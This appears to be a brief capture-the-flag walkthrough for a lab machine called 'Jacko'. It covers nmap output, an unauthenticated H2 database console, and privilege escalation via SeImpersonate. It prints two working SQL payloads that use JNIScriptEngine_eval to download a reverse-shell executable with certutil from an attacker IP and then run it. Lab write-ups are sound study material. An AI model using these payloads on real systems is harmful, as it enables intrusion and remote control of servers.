

# Jacko

* nmap
```
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: H2 Database Engine (redirect)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5040/tcp  open  unknown
7680/tcp  open  pando-pub?
8082/tcp  open  http          H2 database http console
|_http-title: H2 Console
9092/tcp  open  XmlIpcRegSvc?
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
```

* No SMB,RPC access.

* Port 80



* Port 9092 -> Access to H2 database access without creds. Version 1.4.199

* Exploit : https://www.exploit-db.com/exploits/49384

* We get code execution. So we create a msfvenom payload, serve it and execute it.

```
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("certutil -split -urlcache -f http://192.168.45.154/rev.exe C:\\Users\\tony\\rev.exe").getInputStream()).useDelimiter("\\Z").next()');
```
```
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("C:\\Users\\tony\\rev.exe").getInputStream()).useDelimiter("\\Z").next()');
```

* We get connection.

* Priv Esc: SeImpersonate
